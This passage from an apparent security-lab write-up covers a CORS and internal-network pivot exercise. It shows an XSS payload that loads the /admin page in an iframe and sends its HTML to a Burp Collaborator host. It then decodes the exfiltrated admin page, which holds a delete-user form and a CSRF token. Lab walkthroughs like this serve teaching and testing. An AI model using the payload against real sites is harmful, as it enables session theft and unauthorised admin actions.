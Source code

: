  {
 xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
 }
 ))
}

fetchUrl("http://192.168.0.89:8080", "http://0klpcpmyumttuob8cbetz6ptkkqbe0.burpcollaborator.net");
</script>
````
  
  ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-internal-network-pivot-attack-3.png)
  
  Look at the Reuest to Burp Collaborator 

````
/?code=
%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cscript%20src%3D%22%2Fresources%2Flabheader%2Fjs%2FlabHeader.js%22%3E%3C%2Fscript%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20QdTRdgpZPWmPsBCi3SlvihRfoLIctsgZf%0A%20%20%20%20%20%20%20%20%3Cdiv%20theme%3D%22%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Csection%20class%3D%22maincontainer%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22container%20is-page%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cheader%20class%3D%22navigation-header%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Csection%20class%3D%22top-links%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20href%3D%22%2F%22%3EHome%3C%2Fa%3E%3Cp%3E%7C%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20href%3D%22%2Fadmin%22%3EAdmin%20panel%3C%2Fa%3E%3Cp%3E%7C%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20href%3D%22%2Fmy-account%3Fid%3Dadministrator%22%3EMy%20account%3C%2Fa%3E%3Cp%3E%7C%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fsection%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fheader%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cheader%20class%3D%22notification-header%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fheader%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20style%3D%22margin-top%3A%201em%22%20class%3D%22login-form%22%20action%3D%22%2Fadmin%2Fdelete%22%20method%3D%22POST%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20required%3D%22%22%20type%3D%22hidden%22%20name%3D%22csrf%22%20value%3D%22QYBsD7rpsx1BKrnkIAeHSwmcSxOhzfjV%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%3EUsername%3C%2Flabel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20required%3D%22%22%20type%3D%22text%22%20name%3D%22username%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D%22button%22%20type%3D%22submit%22%3EDelete%20user%3C%2Fbutton%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fsection%3E%0A%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%0A%0A

````
let's decode it 

````

            <script src="/resources/labheader/js/labHeader.js"></script>
            QdTRdgpZPWmPsBCi3SlvihRfoLIctsgZf
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href="/">Home</a><p>|</p>
                            <a href="/admin">Admin panel</a><p>|</p>
                            <a href="/my-account?id=administrator">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
                        <input required="" type="hidden" name="csrf" value="QYBsD7rpsx1BKrnkIAeHSwmcSxOhzfjV">